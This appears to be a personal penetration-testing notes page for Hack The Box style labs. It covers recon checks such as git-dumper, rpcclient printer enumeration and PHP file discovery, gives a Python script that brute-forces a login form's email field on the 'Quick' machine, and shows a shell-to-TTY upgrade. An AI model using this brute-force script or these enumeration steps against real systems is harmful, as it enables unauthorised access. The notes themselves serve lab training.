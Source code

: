# Assumptions
Things that aren't self explanatory if not encountered before


# Stuff to check for
- /dev 
    - If this DIR is found, assume that there is code in there.    
    Hence use `git-dumper` tool in .git 
- Printers
    - If a windows AD server has a printer, use `rpcclient` and do `enumprinters`
- HTTPS / HTTP sites 
    - If a site has a protocol one shall try to access the site with the other one.
- PHP files
    - If one or more file is found during recon, assume that there are more php files on the site and scan for them.    
    (Use a wordlist such as [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt))
    - Any other files:      Try the method described [here](./web#scan-for-multiple-file-extensions-with-the-same-list) to expose more files.
- If there's a list of people or names with email addresses and see a list of countries listed 
assume that different people might have different email formats (see help and longer explanation below)

## Emails
For example:
```py
EMAIL_FORMATS   = {"UK":".co.uk","US":".com","DE":".de","IT":".it","CN":".cn","FR":".fr"}
```
The following script was written for [Quick](https://app.hackthebox.com/machines/244) HTTB machine.    
```py
# !/usr/bin/python3

import requests

# Constants
URL             = "http://quick.htb:9001/login.php"
EMAIL_FORMATS   = {"UK":".co.uk","US":".com","DE":".de","IT":".it","CN":".cn","FR":".fr"}

# Variables
data = {"email":"","password":"Quick4cc3$$"}
clients = {"qconsulting":"UK","darkwing":"US","wink":"UK","lazycoop":"CN","scoobydoo":"IT","penguincrop":"FR"}
users = ["tim","roy","elisa","james"]


# Return the needed email format
def make_email(user,org_name,country):
    return f"{user}@{org_name}{EMAIL_FORMATS[country]}"

# Brute force the login page
def brute():
    for u in users:
        for cl,cnt in clients.items():
            data["email"] = make_email(u,cl,cnt)
            req = requests.post(url=URL,data=data)
            if "Invalid Credentials" in req.text:
                print(f"[-]\t{data['email']}")
            else:
                print("\nEMAIL FOUND !!\n")
                print(f"[!]\t{data['email']}")
                exit()
# Driver code
if __name__ == "__main__":
    brute()
```
This script can be altered for different sites.

# Linux
## .dockerenv
If there is a `.dockerenv` file, it means that the host is also a docker container

## Shell upgrade to tty
```bash
username@host:~# script /dev/null -c bash

# Press Ctrl+Z
username@host:~# ^Z

# Type: stty raw -echo; fg
localname@localmachine$ stty raw -echo; fg

# Type: reset
reset
reset: unknown terminal type unknown

# Type: screen
Terminal type? screen
                                                                         
username@host:~# 
```

# Local IPs
If there are multiple IPs listed in order, and one is missing (has no port forwarded), one should run an `nmap` scan on the given IP
